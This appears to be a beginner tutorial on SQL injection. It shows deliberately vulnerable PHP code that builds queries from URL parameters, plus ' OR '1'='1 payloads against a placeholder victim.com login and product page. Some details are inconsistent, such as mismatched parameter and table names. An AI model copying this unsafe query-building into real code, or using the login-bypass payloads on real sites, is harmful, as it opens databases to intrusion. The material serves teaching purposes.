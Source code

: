 ## How SQL works:

#### Suppose this is the target link:
```
http://www.victim.com/products.php?val=100
```

#### and this is the inside php code
```
// connect to the database
$conn = mysql_connect(“localhost”,“username”,“password”);
// dynamically build the sql statement with the input
$query = “SELECT ∗ FROM Products WHERE Price < ‘$_GET[“val”]’ ”.
 “ORDER BY ProductDescription”;
// execute the query against the database
$result = mysql_query($query);
// iterate through the record set
while($row = mysql_fetch_array($result, MYSQL_ASSOC))
{
// display the results to the browser
echo “Description : {$row[‘ProductDescription’]} <br>”.
 “Product ID : {$row[‘ProductID’]} <br>”.
 “Price : {$row[‘Price’]} <br><br>”;
}
```
#### Here's the breakdown:

1. **Connect to the Database**: Establish a connection to the database server (`localhost`) with a specified username and password.

2. **Build SQL Query**: Dynamically construct an SQL query using input from the URL parameter (`$_GET['val']`). The query selects all columns (`*`) from the `Products` table where the `Price` column is less than the value provided in the URL parameter.

3. **Execute Query**: Execute the constructed SQL query against the database using `mysql_query()`.

4. **Process Results**: Iterate through the result set returned by the query using `mysql_fetch_array()`. For each row in the result set, display the product description, product ID, and price to the browser.


## Understanding SQL Injection:

Let see how CMS maintain this:
```
http://www.victim.com/cms/login.php?username=foo&password=bar
```
#### inside php code:
```
// connect to the database
$conn = mysql_connect(“localhost”,“username”,“password”);
// dynamically build the sql statement with the input
$query = “SELECT userid FROM CMSUsers WHERE user = ‘$_GET[“user”]’ ”.
 “AND password = ‘$_GET[“password”]’”;
// execute the query against the database
$result = mysql_query($query);
// check to see how many rows were returned from the database
$rowcount = mysql_num_rows($result);
// if a row is returned then the credentials must be valid, so
// forward the user to the admin pages
if ($rowcount ! = 0){header(“Location: admin.php”);}
// if a row is not returned then the credentials must be invalid
else {die(‘Incorrect username or password, please try again.’)}
```
### Let's break down each component:

**URL Parameters:** The username and password provided in the URL (foo and bar, respectively) are passed as parameters to the PHP script (login.php) via the $_GET superglobal array.

**PHP Code Logic:**

- The PHP script establishes a connection to the database.
- It constructs an SQL query dynamically using the provided username and password parameters.
- The query is executed against the database to validate the user credentials.
- If the provided credentials are valid (i.e., if the query returns at least one row), the user is redirected to the admin page (admin.php).
- If the credentials are invalid (i.e., if the query returns no rows), an error message is displayed, and the script terminates.

#### Now let's put this modified query:
```
http://www.victim.com/cms/login.php?username=foo&password=bar’ OR ‘1’=’1
```
#### It will work like this:
```
SELECT userid
FROM CMSUsers
WHERE user = ‘foo’ AND password = ‘password’ OR ‘1’ = ‘1’;
```
#### or you can modify the previous example:
```
http://www.victim.com/products.php?val=100’ OR ‘1’=‘1
```
#### It will work like this:
```
SELECT ∗
FROM ProductsTbl
WHERE Price < ‘100.00’ OR ‘1’ = ‘1’
ORDER BY ProductDescription;
```

